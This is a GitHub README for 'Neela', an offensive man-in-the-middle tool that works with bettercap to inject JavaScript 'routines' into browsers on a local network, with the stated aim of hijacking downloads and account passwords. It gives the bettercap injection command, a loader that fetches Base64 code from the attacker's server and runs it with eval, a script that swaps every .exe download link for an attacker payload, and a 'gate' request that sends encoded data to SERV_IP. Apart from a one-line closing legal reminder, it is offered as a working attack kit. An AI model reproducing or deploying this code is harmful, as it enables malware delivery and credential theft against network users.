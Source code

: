 <p align="center">
<img  src ="https://s31.postimg.org/4s7r3ng0r/Neela_logo01_d.png" height="200" />
</p>
<br />


###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* Create folder on /exploit/routine

Create info file

```javascript
{
  "name": "Name routine",
  "step":[
      {"name":"step1.neela"},
      {"name":"step2.neela"}
      ]
  ,
  "author": "Author"
}

```

* Create step file exemple:
  - step1.neela

  ```javascript
    alert('My first routine');
  ```

* set neela environement

```javascript
var serveur_neela = '10.34.2.139'; // Serv ip.
var step_neela = 0; // step 0=1 1=2 ...
var routine_name = 'Routine_folder_name';
```

* Update end function

```javascript
function end_neela(){

	console.log('ok end');
	var req = new XMLHttpRequest();
	req.open('GET', 'http://'+serveur_neela+':3000/next/'+step_neela+'/'+routine_name, true);
	req.onreadystatechange = function() {
    if (req.readyState == XMLHttpRequest.DONE) {
        eval(Base64.decode(req.responseText));
    }
}
	req.send(null);
}
```

* Get next step

```javascript
end_neela();
```



```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
